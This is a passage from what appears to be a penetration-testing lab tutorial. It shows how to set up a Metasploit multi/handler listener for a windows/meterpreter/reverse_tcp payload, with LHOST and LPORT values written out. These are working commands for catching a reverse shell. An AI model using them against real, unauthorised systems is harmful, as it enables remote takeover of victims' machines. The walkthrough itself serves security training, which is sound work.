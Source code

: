     - Select an exploit module:  

      - Run `use exploit/multi/handler` 

         - This module is a TCP handler popular among security practitioners.

       - The exploit module executes a sequence of commands to target a specific vulnerability.

   - Next, indicate that we'll be using the following Windows Meterpreter payload: 
    
     - Run `set payload windows/meterpreter/reverse_tcp` 

     - This payload will open the Meterpreter console (`/meterpreter`) and communicate with the remote machine (`/reverse_tcp`).
   
     ![MSF 2](./Images/MSF_2.png)

  - Display the payload's options settings: 

      - Run `show options`

  - We need to adjust the following two options: 

     - `set LHOST 192.168.0.8` (insert our local host IP address) 

     - `set LPORT 4444`

       - We can technically use any open port, but for this example we will be using port `4444` since it was established in the payload in Step 1. 
